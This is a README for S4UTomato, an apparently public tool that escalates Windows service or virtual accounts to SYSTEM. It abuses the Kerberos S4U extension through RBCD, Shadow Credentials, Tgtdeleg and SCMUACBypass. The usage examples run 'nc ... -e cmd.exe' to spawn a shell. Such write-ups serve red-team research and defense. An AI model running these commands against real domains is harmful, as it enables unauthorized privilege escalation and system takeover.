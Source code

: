 ## S4UTomato

Escalate Service Account To LocalSystem via Kerberos.

## Traditional Potatoes

Friends familiar with the "Potato" series of privilege escalation should know that it can elevate service account privileges to local system privileges. The early exploitation techniques of "Potato" are almost identical: leveraging certain features of COM interfaces, deceiving the NT AUTHORITY\SYSTEM account to connect and authenticate to an attacker-controlled RPC server. Then, through a series of API calls, an intermediary (NTLM Relay) attack is executed during this authentication process, resulting in the generation of an access token for the NT AUTHORITY\SYSTEM account on the local system. Finally, this token is stolen, and the `CreateProcessWithToken()` or `CreateProcessAsUser()` function is used to pass the token and create a new process to obtain SYSTEM privileges.

## How About Kerberos

In any scenario where a machine is joined to a domain, you can leverage the aforementioned techniques for local privilege escalation as long as you can run code under the context of a Windows service account or a Microsoft virtual account, provided that the Active Directory hasn't been hardened to fully defend against such attacks.

In a Windows domain environment, SYSTEM, NT AUTHORITY\NETWORK SERVICE, and Microsoft virtual accounts are used for authentication by system computer accounts that are joined to the domain. Understanding this is crucial because in modern versions of Windows, most Windows services run by default using Microsoft virtual accounts. Notably, IIS and MSSQL use these virtual accounts, and I believe other applications might also employ them. Therefore, we can abuse the S4U extension to obtain the service ticket for the domain administrator account "Administrator" on the local machine. Then, with the help of James Forshaw ([@tiraniddo](https://twitter.com/tiraniddo))'s  [*SCMUACBypass*](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), we can use that ticket to create a system service and gain SYSTEM privileges. This achieves the same effect as traditional methods used in the "Potato" family of privilege escalation techniques.

Before this, we need to obtain a TGT (Ticket Granting Ticket) for the local machine account. This is not easy because of the restrictions imposed by service account permissions, preventing us from obtaining the computer's Long-term Key and thus being unable to construct a KRB_AS_REQ request. To accomplish the aforementioned goal, I leveraged three techniques: [*Resource-based Constrained Delegation*](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html), [*Shadow Credentials*](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), and [*Tgtdeleg*](https://twitter.com/gentilkiwi/status/998219775485661184). I built my project based on the  [Rubeus](https://github.com/GhostPack/Rubeus#tgtdeleg) toolset.

## How to Use and Examples

```cmd
C:\Users\whoami\Desktop>S4UTomato.exe --help

S4UTomato 1.0.0-beta
Copyright (c) 2023 whoamianony.top

  -d, --Domain              Domain (FQDN) to authenticate to.
  -s, --Server              Host name of domain controller or LDAP server.
  -m, --ComputerName        The new computer account to create.
  -p, --ComputerPassword    The password of the new computer account to be created.
  -f, --Force               Forcefully update the 'msDS-KeyCredentialLink' attribute of the computer
                            object.
  -c, --Command             Program to run.
  -v, --Verbose             Output verbose debug information.
  --help                    Display this help screen.
  --version                 Display version information.
```

### LEP via Resource-based Constrained Delegation

```cmd
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](/images/rbcd.gif)

### LEP via Shadow Credentials + S4U2self

```cmd
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](/images/shadowcred.gif)

### LEP via Tgtdeleg + S4U2self

```cmd
# First retrieve the TGT through Tgtdeleg
S4UTomato.exe tgtdeleg
# Then run SCMUACBypass to obtain SYSTEM privilege
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](/images/tgtdeleg.gif)
